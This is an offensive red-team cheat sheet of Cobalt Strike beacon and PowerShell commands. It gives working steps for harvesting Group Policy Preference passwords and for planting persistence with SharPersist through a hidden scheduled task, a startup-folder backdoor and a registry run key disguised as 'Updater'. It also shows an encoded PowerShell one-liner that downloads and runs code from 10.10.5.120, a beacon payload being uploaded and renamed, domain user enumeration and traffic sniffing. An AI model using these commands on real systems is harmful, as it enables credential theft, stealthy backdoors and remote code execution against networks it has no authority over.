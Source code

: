 ###### <font style="color:#00b3ff">Search for GPP Passwords</font> 
```
execute-assembly /home/kali/SharpFuscated_Net-GPPPassword_dotNET_v4.exe.exe MYDOMAIN.COM.SG
```

###### <font style="color:#00b3ff">Create schedule task</font> 
```
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))'

PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly
```

###### <font style="color:#00b3ff">Add backdoor to startup folder</font> 
```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add
```

###### <font style="color:#00b3ff">Add backdoor to Registry</font> 
```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\beacon-http.exe
beacon> mv beacon-http.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```

###### <font style="color:#00b3ff">Show domain user</font> 
```
run net user bfarmer /domain
```

###### <font style="color:#00b3ff">Enumerate proxys</font> 
```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe InternetSettings
```

###### <font style="color:#00b3ff">Listening for http requests</font> 
```
root@kali:~# tshark -i eth0 -f "tcp port 80" -O http -Y "http.request"
```
